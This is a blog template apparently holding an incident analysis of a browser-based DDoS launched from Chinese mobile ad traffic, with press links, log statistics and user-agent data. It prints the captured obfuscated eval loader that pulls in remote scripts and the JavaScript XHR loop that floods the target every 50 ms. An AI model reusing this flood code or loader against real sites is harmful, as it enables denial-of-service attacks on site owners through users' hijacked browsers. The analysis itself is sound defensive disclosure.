


<%inherit file="basecomment.html"/>

<%block filter="filters.markdown">

-------------

I've published an article on the CloudFlare blog:

 * [https://blog.cloudflare.com/mobile-ad-networks-as-ddos-vectors/](https://blog.cloudflare.com/mobile-ad-networks-as-ddos-vectors/)

A bit of comments:

 * [The Register](http://www.theregister.co.uk/2015/09/28/mobile_malvertiser_ddos_javascript_drip_serves_site_with_45_billion_hits/)
 * [Security Week](http://www.securityweek.com/mobile-ad-network-abused-ddos-attack-cloudflare)
 * [Threat Post](https://threatpost.com/javascript-ddos-attack-peaks-at-275000-requests-per-second/114828/)
 * [BBC](http://www.bbc.co.uk/news/technology-34379254)
 * [Dark Matters](http://darkmatters.norsecorp.com/2015/09/28/new-ddos-attack-uses-smartphone-browsers/)
 * [Network World](http://www.networkworld.com/article/2986963/after-pushing-malware-ad-networks-also-used-for-ddos.html)
 * [The Inquirer](http://www.theinquirer.net/inquirer/news/2427872/smartphone-browser-based-ddos-attack-is-your-latest-threat)
 * [PCWorld](http://www.pcworld.com/article/2986966/security/after-pushing-malware-ad-networks-also-used-for-ddos.html)
 * [ZDNet](http://www.zdnet.com/article/new-ddos-attack-uses-smartphone-browsers-to-flood-site-with-4-5bn-requests/)
 * [Tweakers](http://tweakers.net/nieuws/105503/aanvallers-ddosen-website-met-behulp-van-honderdduizenden-mobieltjes.html)
 * [SC Magazine](http://www.scmagazine.com/ddos-attack-used-mobile-devices-to-deliver-45-billion-requests/article/441456/)


-------------

<%
a = """

Analysis of a browser-based DDoS
---

CloudFlare servers are constantly being targeted by DDoS'es. We see everything from attempted DNS reflection attacks to L7 HTTP floods involving large botnets.

<div class="image"></div>

<br>

The request
-----------

Recently an unusual flood caught our attention. A site reliability engineer on call noticed a big number of HTTP requests being issued against one of our customers. Here is one of the requests:

```.txt
POST /js/404.js HTTP/1.1
Host: www.target.com
Connection: keep-alive
Content-Length: 426
Origin: http://attacksite.com
User-Agent: Mozilla/5.0 (Linux; U; Android 4.4.4; zh-cn; MI 4LTE Build/KTU84P) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/42.0.0.0 Mobile Safari/537.36 XiaoMi/MiuiBrowser/2.1.1
Content-Type: application/x-www-form-urlencoded
Accept: */*
Referer: http://attacksite.com/html/part/86.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,en-US;q=0.8

id=datadatadasssssssssssssssssssssssssssssssssssssssssssassssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssadatadata
```

We received millions of similar requests, clearly suggesting a flood. Let's take a deeper look at this request.

First, let's note that the headers look legitimate. We often see floods issued by Python or Ruby scripts, with weird "Accept-Language" or "User-Agent" headers. But this one doesn't look like it. This request is a proper request issued by a real browser.

Next, notice the request is a POST and contains an "Origin" header - it was issued by an Ajax (XHR) cross origin call.

Finally, the "Referer" points the website issuing these queries against our servers. We checked: the URL was correct and the "attacksite.com" was reachable.


Browser-based floods
-------------------

<div class="image"></div>

Browser-based L7 floods have been rumored as a theoretical threat for a long time. Read [Nick Sullivan's explanation](https://blog.cloudflare.com/an-introduction-to-javascript-based-ddos/) on how they work.

The first mention was around 2010, when on Lavakumar Kuppan proposed using [browser HTML5 features](https://media.blackhat.com/bh-ad-10/Kuppan/Blackhat-AD-2010-Kuppan-Attacking-with-HTML5-wp.pdf) to launch floods. Then [in 2013 Jeremiah Grossman and Matt Johansen](https://media.blackhat.com/us-13/us-13-Grossman-Million-Browser-Botnet.pdf) suggested web advertisements as a distribution vector for the malicious javascript. A paper from this year discusses [a theoretical cost](http://www.christian-rossow.de/publications/cashcannon-woot2015.pdf) of such an attack.


Finally, in April we saw [The Great Cannon](https://citizenlab.org/wp-content/uploads/2009/10/ChinasGreatCannon.pdf) distributing javascript with a novel method - by injecting raw TCP segments into passing by connections.

These developments indicate the biggest difficulty is in effectively distributing the malicious javascript. Since efficient distribution vector is crucial to issuing large floods up until now I haven't seen a sizable browser-based flood.


The attack page
--------

To investigate the source of the flood hitting us we followed the
"Referer". It was an exciting journey.

The web page from the referrer looked like a link farm or an ad aggregator. For this discussion let's call it "the attack site". The page was written with pretty simple html and used a few manually written javascript routines. It loaded a couple of small javascript files, one of them was called `count.js`. It contained a couple of not notable `document.writes`, followed by 50 new lines and this slightly obfuscated line:


```.txt
eval(function(p,a,c,k,e,r){e=String;if('0'.replace(0,e)==0){while(c--)r[e(c)]=k[c];k=[function(e){return r[e]||e}];e=function(){return'[0-8]'};c=1};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c]);return p}('2.3("<0 4=\\"5://6.anotherattacksite.7/8/1/jquery2.1\\"></0>");2.3("<0 4=\\"5://6.anotherattacksite.7/8/1/jquery1.1\\"></0>");',[],9,'script|js|document|writeln|src|http|www|com|css'.split('|'),0,{}))
```

After pasting it to [Js Beautifier](http://jsbeautifier.org/) the following decoded code emerges:

```.txt
document.writeln("<script src=\"http://www.anotherattacksite.com/css/js/jquery2.js\"></script>");
document.writeln("<script src=\"http://www.anotherattacksite.com/css/js/jquery1.js\"></script>");
```

It turns out the `jquery2.js` file contained a malicious code targeting our customer. The code wasn't too sophisticated either, here's a snippet:

```.txt
var t_postdata='id=datadatadasssssssssssssssssssssssssssssssssssssssssssassssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssadatadata';

var t_url8='http://www.target.com/js/404.js';

function post_send() {
    var xmlHttp=c_xmlHttp();
    xmlHttp.open("POST",t_url8,true);
    xmlHttp.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
    xmlHttp.send(t_postdata);
    r_send();
}

function r_send() {
    setTimeout("post_send()", 50);
}


if(!+[1,]) { //IE下不执行。
    var fghj=1;
} else {
    setTimeout("post_send()", 3000);
}
```

As you see the malicious script isn't too complex and just launches XHR in a loop.

On the other hand the script uses pretty smart method of detecting IE. Previously we were not aware `if(!+[1,])` can be used to detect Internet Explorer 9 and older. For added kicks consider that the javascript statement `!+[1,]` alone behaves consistently across all browsers.


Analyzing the logs
-------------



The HTTP requests chart above suggests that the large flood was proceeded by a smaller one 12 days earlier. Maybe the attackers were testing their tools.

During the day of the flood we received 4.5 billion requests to the targeted domain issued by 650 thousand unique IP's. We don't have more detailed data, like hourly distribution, since [we throw away most of the logs](https://blog.cloudflare.com/what-cloudflare-logs/).

Since the flood was so interesting we wrote a couple of scripts and were able to further analyze 17M log lines, about 0.4% of the flood requests.

The flood was coming from a single country. The source IP's were distributed:

```
99.8% China
 0.2% other
```

Our system is able to extract the device type from the user agent. It looks like a 80% of the requests came from mobile devices:

```
72% mobile
23% desktop
 5% tablet
```

The referrer headers didn't have a clear pattern. The referrer domains were distributed fairly uniformly. Whoever attacked us had a control over a large number of domains. We definitely weren't hit by a single attack page.

```
27.0% http://www.attacksite1.com
10.1% http://www.attacksite2.com
 8.2% http://www.attacksite3.com
 3.7% http://www.attacksite4.com
 1.6% http://www.attacksite5.com
 1.2% http://www.attacksite6.com
 ...
```

The user agents are notoriously hard to quickly analyze, but we found a couple of interesting ones:

```.txt
Thunder.Mozilla/5.0 (Linux; U; Android 4.1.1; zh-cn; MI 2S Build/JRO03L) AppleWebKit/534.30 (KHTML, like Gecko) Version/4.0 Mobile Safari/534.30
Mozilla/5.0 (iPhone; CPU iPhone OS 8_4 like Mac OS X) AppleWebKit/600.1.4 (KHTML, like Gecko) Mobile/12H143 iThunder
Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.1916.153 Safari/537.36 SE 2.X MetaSr 1.0
Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/31.0.1650.63 Safari/537.36 F1Browser Yunhai Browser
Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/44.0.2403.69 Safari/537.36 QQBrowser/9.0.3100.400
Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/39.0.2171.99 Safari/537.36 2345Explorer/6.1.0.8631
Mozilla/5.0 (Linux; U; Android 4.4.4; zh-CN; MI 3 Build/KTU84P) AppleWebKit/534.30 (KHTML, like Gecko) Version/4.0 UCBrowser/10.6.2.626 U3/0.8.0 Mobile Safari/534.3
```

Strings like "iThunder" might indicate the request came from a mobile app. Others like "MetaSr", "F1Browser", "QQBrowser", "2345Explorer" and "UCBrowser" point towards browsers or browser apps popular in China.

The distribution vector
--------------

This is where the hard evidence ends and the speculation begins. There is no way to know for sure why so many mobile devices visited the attack page. The most plausible distribution vector seems to be an ad network. It seems likely that a compromised ad network was forwarding users to a page containing the malicious javascript. This ads were likely showed in iframes in mobile apps, or mobile browsers to people casually browsing the internet.

During the flood we were able to look at the packet traces and we are confident the attack didn't involve a TCP packet injection.


To recap, we think this happened:

 * A Chinese user was casually browsing the internet or opened an app on the phone.
 * The user was served an iframe with an advertisement.
 * The advertisement request went to an ad network.
 * The ad network forwarded the request to the third-party website
   that won the ad auction.
 * Either the third-party website was the "attack page", or it
   forwarded the user to an attack page.
 * The user is served an attack page containing a malicious javascript
   which launches a flood against CloudFlare servers.


Attacks like this form a new trend and present a great danger to the internet. We are continuing our work to understand these attacks better.


"""
%>

</%block>
